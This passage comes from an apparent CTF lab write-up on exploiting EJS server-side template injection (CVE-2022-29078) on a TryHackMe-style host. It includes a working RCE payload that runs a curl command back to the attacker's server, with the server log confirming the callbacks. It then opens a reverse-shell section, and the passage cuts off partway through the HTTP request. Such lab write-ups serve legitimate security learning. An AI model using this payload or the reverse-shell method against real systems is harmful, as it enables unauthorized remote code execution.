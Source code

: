 The `-fs` flag in ffuf stands for **filter size** — it filters out results based on the response body size in bytes
![Burppp](length.png){: width="800" height="150" .shadow }

Anyway guys, I'm particularly interested in the includes parameter  when we use this parameter in the request, we receive an error in the response
![Burppp2](Burpp2.png){: width="800" height="150" .shadow }

```console
TypeError: /home/web/app/views/settings.ejs:4
```
**Alright! If you're not familiar with settings.ejs, here's a quick overview**

* .ejs stands for `Embedded JavaScript`, which is a templating language used in Node.js applications.
* settings.ejs is likely a template file that generates the HTML for the Settings page of a web application.
* EJS lets developers inject JavaScript code into HTML using <%= %> or <% %> syntax.
* After searching for a while, I came across this vulnerability:`CVE-2022-29078` [link](https://eslam.io/posts/ejs-server-side-template-injection-rce/)

So first, we start our Python server to check whether `SSTI` (Server-Side Template Injection) is present or not
```console
python3 -m http.server 80
```
After that:
Use the Payload
```console
[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl 10.8.128.221');s
```
![Attacker](attack.png){: width="800" height="150" .shadow }

Alright, we received a ✅200 OK response, which is a good sign! 
We also check the python server:
```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.218.194 - - [26/May/2025 13:55:41] "GET / HTTP/1.1" 200 -
10.10.218.194 - - [26/May/2025 13:55:42] "GET / HTTP/1.1" 200 -
10.10.218.194 - - [26/May/2025 13:55:43] "GET / HTTP/1.1" 200 -
```
The response is coming back — so it's confirmed that `✅SSTI` (Server-Side Template Injection) is present. 

## Shell
To get a shell, I’m using `BusyBox` [Reverse Shell](https://www.revshells.com), but you can also use a Python reverse shell if Python is available on the target

```console
POST /settings HTTP/1.1
Host: admin.cyprusbank.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 212
Origin: http://admin.cyprusbank.thm
Connection: keep-alive
Referer: http://admin.cyprusbank.thm/settings
Cookie: connect.sid=s%3A2hP7PCXrPOgc1Bac8mjAYi-W-NFGmSVz.mPNDA4PMqcsBeuVdMdLc0Z1ccqpFZFus73pJDWG2A%2B8
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```